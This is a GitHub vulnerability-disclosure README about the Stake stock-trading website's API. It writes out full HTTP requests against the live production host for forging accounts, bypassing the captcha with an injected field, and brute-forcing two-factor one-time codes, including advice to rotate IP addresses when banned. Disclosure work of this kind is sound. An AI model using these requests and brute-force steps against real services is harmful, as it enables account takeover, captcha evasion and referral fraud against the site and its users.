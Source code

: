 # StakeOver
The [Stake](https://hellostake.com/) stock trading website is accessed through a mismanaged and insecure custom API. Manipulation of requests allow an attacker to:
1) Create any number of falsified users on the website
2) Tie all of these users to referal codes during "Sign Up"
3) Bypass Captcha Prompts
4) Bruteforce Two-Factor Authentication

After finding a number of vulnerabilities on the Stake website, without any intrusive exploitation, the security team decided to personally reach out on discord. A full audit of this site would likely introduce a number of much more serious issues as I did not perform any intrusive auditing. These issues have all been brought to the attention of the Stake security team and disclosed responsibly.

## Requests
Bypassing Captcha:
Simply append the `"captcha":"captchaIgnore"` option in any request body.

<p align="center">
  <img width="800" height="400" src="https://github.com/dragoneyeintel/StakeOver/raw/main/CreateUsersUnderEmailSkipCaptcha.gif">
</p>

Forging Users:
```
POST /api/users/createuser/ HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 355
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"marketingOptIn":true,"cvmAcceptance":null,"emailAddress":"noot@nootnoot.io",
"password":"Password12345$","captcha":"catpchaIgnore","username":"FakeUser","guestUserId":null,"regionIdentifier":"AUS","firstName":"noot","lastName":"LastName","marketingTitle":null,"campaign":null,"channel":null,"referringLink":null,"feature":null,"influencerClickId":null}
```

The user verification link will be sent to the email not the username although the website will prompt "Sending to username". This is not a problem however as 2FA can be bypassed.

<p align="center">
  <img width="800" height="400" src="https://github.com/dragoneyeintel/StakeOver/raw/main/Bypass2FA.gif">
</p>

Two-Factor Authentication Bruteforce:
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"nootnootalakazam@protonmail.com","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3"}
```
Will send a one time password to the email associated with the username. 
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"noot@nootnoot.io","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3","otp":"772335"}
```
Will attempt to verify the OTP. Inctiment the OTP from 000000-999999 until one works. Every 10,000 requests (aprox) the IP is banned and should be changed. When a request status 200 is identified, the user has logged in suessfully.

[@nootsploit](https://twitter.com/nootsploit)

https://dragoneyeintel.com
